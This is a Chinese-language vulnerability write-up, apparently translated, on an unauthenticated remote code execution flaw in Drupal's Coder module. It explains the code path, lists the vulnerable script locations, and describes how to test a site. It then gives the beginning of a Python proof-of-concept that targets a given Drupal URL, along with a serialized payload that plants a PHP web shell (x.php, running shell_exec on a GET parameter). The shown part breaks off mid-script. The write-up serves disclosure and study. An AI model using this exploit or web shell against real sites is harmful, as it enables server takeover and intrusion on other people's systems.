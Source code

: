 函数coder_upgrade_memory_print()写入数据使得我们无法控制memory.txt文件。下面这三个变量，我们是通过coder_upgrade_start()也就是main.inc定义文件进行控制。

[![](https://p0.ssl.qhimg.com/t01a74f109480affcec.jpg)](https://p0.ssl.qhimg.com/t01a74f109480affcec.jpg)

传递给 coder_upgrade_start() 的三个参数必须是非空数组。然后在$upgrades 参数传递到 coder_upgrade_load_code() 之前清除几个日志文件。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01e7e539730a3bd181.jpg)

检测网站是否易受攻击

如果安装的编码器模块是7.x 1.3 或 7.x 2.6 之前的版本，那么该网站不管是否已启用编码器模块，都是易受未经身份验证的远程代码执行攻击的。

可以通过请求响应来确定是否是易受攻击的网站。如果该脚本返回的确切字符串文件参数不是参数文件，那么该网站就是危险的。 此脚本可能的各种安装路径如下︰



```
[drupal-root]/modules/coder/coder_upgrade/scripts/coder_upgrade.run.php
[drupal-root]/sites/all/modules/coder/coder_upgrade/scripts/coder_upgrade.run.php
[drupal-root]/sites/default/modules/coder/coder_upgrade/scripts/coder_upgrade.run.php
[drupal-root]/sites/[site-name]/modules/coder/coder_upgrade/scripts/coder_upgrade.run.php
```





 [Drupal- root] 是Drupal可以到达的URL ，[站点名称] 是用来标识单个站点名称的。

已经发布Nessus 插件来检测此漏洞，但它目前似乎只能检查前两个默认安装路径。

开发

下面有我的概念证明。它生成多个线程，将有效负载反复发送到脆弱的脚本直到触发器启用，服务器中还写入了最小的 PHP 命令外壳程序。

```
import base64
import urllib
import threading
import sys
 
#Check for target parameter
if len(sys.argv) != 2:
 print "Usage: drupal-coder-shellupload.py &lt;drupal-root&gt;"
 print "  e.g. drupal-coder-shellupload.py http://www.somedrupalsite.org"
 sys.exit()
 
#Target URL - must point at the base of the Drupal installation
target = sys.argv[1]
if target[-1] == "/":
 target = target[:-1] #Strip trailing slash
 
#The payload generated by constructing our $parameters array in PHP and serializing it:
# a:7:`{`s:5:"paths";a:3:`{`s:10:"files_base";s:28:"../../../../../default/files";s:14:"libraries_base";s:21:"../../../../libraries";s:12:"modules_base";s:8:"../../..";`}`s:9:"variables";a:0:`{``}`s:11:"theme_cache";s:0:"";s:8:"upgrades";a:1:`{`s:20:"race-execpoisonedlog";a:3:`{`s:6:"module";s:20:"race-execpoisonedlog";s:4:"path";s:42:"../../../../../default/files/coder_upgrade";s:5:"files";a:1:`{`i:0;s:10:"memory.txt";`}``}``}`s:10:"extensions";a:1:`{`s:11:"placeholder";s:0:"";`}`s:5:"items";a:1:`{`s:11:"placeholder";s:0:"";`}`s:5:"usage";s:116:"&lt;?php file_put_contents('x.php','&lt;?php print nl2br(htmlentities(shell_exec($_GET[1]))); ?&gt;');chmod('x.php',0755); ?&gt;";`}`
#We can pass this directly to the vulnerable script by using the data:// protocol by base 64 encoding it...
```